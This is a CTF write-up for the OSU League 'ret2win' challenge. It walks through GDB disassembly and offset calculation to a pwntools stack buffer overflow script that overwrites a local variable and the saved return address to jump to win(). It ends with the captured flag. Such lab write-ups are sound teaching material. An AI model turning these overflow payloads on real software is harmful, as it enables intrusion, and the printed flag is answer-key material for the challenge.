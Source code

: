 ```yaml
---
title: "OSU League 2020/2021 - ret2win Writeup"
date: 2020-11-07
draft: false
description: ""
tags: ["ctf"]
---
```

## Writeup
The goal of this challenge is to redirect code flow to the `win()` function.  Opening up the binary in GDB, we can see some other interesting functions that we have.
```
0x0000000000400607  win
0x0000000000400652  part2
0x0000000000400699  part1
0x00000000004006ee  main
```

Let's disassemble them and see what's going on:

```
gdb-peda$ disass main
Dump of assembler code for function main:
   0x00000000004006ee <+0>:	push   rbp
   0x00000000004006ef <+1>:	mov    rbp,rsp
   0x00000000004006f2 <+4>:	mov    eax,0x0
   0x00000000004006f7 <+9>:	call   0x400699 <part1>
   0x00000000004006fc <+14>:	mov    eax,0x0
   0x0000000000400701 <+19>:	pop    rbp
   0x0000000000400702 <+20>:	ret
End of assembler dump.
gdb-peda$ disass part1
Dump of assembler code for function part1:
   0x0000000000400699 <+0>:	push   rbp
   0x000000000040069a <+1>:	mov    rbp,rsp
   0x000000000040069d <+4>:	sub    rsp,0x20
   0x00000000004006a1 <+8>:	mov    QWORD PTR [rbp-0xc],0x0
   0x00000000004006a9 <+16>:	lea    rdi,[rip+0x1a0]        # 0x400850
   0x00000000004006b0 <+23>:	call   0x4004e0 <puts@plt>
   0x00000000004006b5 <+28>:	mov    rdx,QWORD PTR [rip+0x200994]        # 0x601050 <stdin@@GLIBC_2.2.5>
   0x00000000004006bc <+35>:	lea    rax,[rbp-0x20]
   0x00000000004006c0 <+39>:	mov    esi,0x20
   0x00000000004006c5 <+44>:	mov    rdi,rax
   0x00000000004006c8 <+47>:	call   0x400500 <fgets@plt>
   0x00000000004006cd <+52>:	mov    rdx,QWORD PTR [rbp-0xc]
   0x00000000004006d1 <+56>:	movabs rax,0xbaddecafbeefcafe
   0x00000000004006db <+66>:	cmp    rdx,rax
   0x00000000004006de <+69>:	jne    0x4006eb <part1+82>
   0x00000000004006e0 <+71>:	mov    eax,0x0
   0x00000000004006e5 <+76>:	call   0x400652 <part2>
   0x00000000004006ea <+81>:	nop
   0x00000000004006eb <+82>:	nop
   0x00000000004006ec <+83>:	leave
   0x00000000004006ed <+84>:	ret
End of assembler dump.
```

So all `main` does it seems is to just call `part1()`.  And in that function it compares some value on the stack to the value `0xbaddecafbeefcafe`, and jumps to `part2()` if they are equal.  We can see the value is located at `$rbp-0xc`, and that the max buffer size is `0x20` bytes. So all we need to do is input `0x20 - 0x0c = 0x14` bytes, or 20 bytes, followed by `0xbaddecafbeefcafe`.

```python
from pwn import *

io = process("./ret2win")

io.recvuntil("overwrite data")
payload_1 = b"A" * 20
payload_1 += p64(0xbaddecafbeefcafe)

io.sendline(payload_1)

io.interactive()
```

And running it we are able to call `part2()`!

```
[+] Starting local process './ret2win': pid 2557
[*] Switching to interactive mode

Well done!
That was the same vuln as last week though, we probably shouldn't give you a flag for that
Reply "yes" to awknowledge that you don't deserve any points
$ no
[*] Got EOF while reading in interactive
```

Let's now take a look at the disassembly of `part2()`:


```
gdb-peda$ disass part2
Dump of assembler code for function part2:
   0x0000000000400652 <+0>:	push   rbp
   0x0000000000400653 <+1>:	mov    rbp,rsp
   0x0000000000400656 <+4>:	sub    rsp,0x20
   0x000000000040065a <+8>:	lea    rdi,[rip+0x13e]        # 0x40079f
   0x0000000000400661 <+15>:	call   0x4004e0 <puts@plt>
   0x0000000000400666 <+20>:	lea    rdi,[rip+0x143]        # 0x4007b0
   0x000000000040066d <+27>:	call   0x4004e0 <puts@plt>
   0x0000000000400672 <+32>:	lea    rdi,[rip+0x197]        # 0x400810
   0x0000000000400679 <+39>:	call   0x4004e0 <puts@plt>
   0x000000000040067e <+44>:	mov    rdx,QWORD PTR [rip+0x2009cb]        # 0x601050 <stdin@@GLIBC_2.2.5>
   0x0000000000400685 <+51>:	lea    rax,[rbp-0x20]
   0x0000000000400689 <+55>:	mov    esi,0x64
   0x000000000040068e <+60>:	mov    rdi,rax
   0x0000000000400691 <+63>:	call   0x400500 <fgets@plt>
   0x0000000000400696 <+68>:	nop
   0x0000000000400697 <+69>:	leave
   0x0000000000400698 <+70>:	ret
End of assembler dump.
gdb-peda$ break *0x0000000000400691
Breakpoint 1 at 0x400691
gdb-peda$ r < part1
```
I set a break point at the end so I can take a look at the stack frame.  `part1` is just a text file with the payload already in it.

```
gdb-peda$ info frame
Stack level 0, frame at 0x7fffffffdec0:
 rip = 0x400691 in part2; saved rip = 0x4006ea
 called by frame at 0x7fffffffdef0
 Arglist at 0x7fffffffdeb0, args:
 Locals at 0x7fffffffdeb0, Previous frame's sp is 0x7fffffffdec0
 Saved registers:
  rbp at 0x7fffffffdeb0, rip at 0x7fffffffdeb8
gdb-peda$ p 0xdeb8 - (0xdeb0 - 0x20)
$4 = 0x28
```

So now with this, we know the start of the buffer is at `$rbp - 0x20`. Subract that from `$rip` and we get how many bytes we need to fill before we overwrite the instruction pointer.

But what should we overwrite it with?  Well, we can give any address we want and it will jump to it!  So let's give it the address of the `win()` function. Recall that:

```
0x0000000000400607  win
```

So now we can build our final exploit:

```python
from pwn import *

#io = process("./ret2win")
io = remote('ctf.ropcity.com', 31337)

io.recvuntil("overwrite data")
payload_1 = b"A" * 20
payload_1 += p64(0xbaddecafbeefcafe)

f = open("part1", "wb")
f.write(payload_1)
f.close()

io.sendline(payload_1)
io.recvuntil("any points")

payload_2 = b"A" * 40
payload_2 += p64(0x0000000000400607)

io.sendline(payload_2)

io.interactive()
```

And running it we get the flag!

```
[+] Starting local process './ret2win': pid 115498
Reply "yes" if you remember how to overwrite data

[*] Switching to interactive mode
Well done!
That was the same vuln as last week though, we probably shouldn't give you a flag for that
Reply "yes" to awknowledge that you don't deserve any points
osu{$oRRY_y0U_d0_de$Erv3_7his}
```
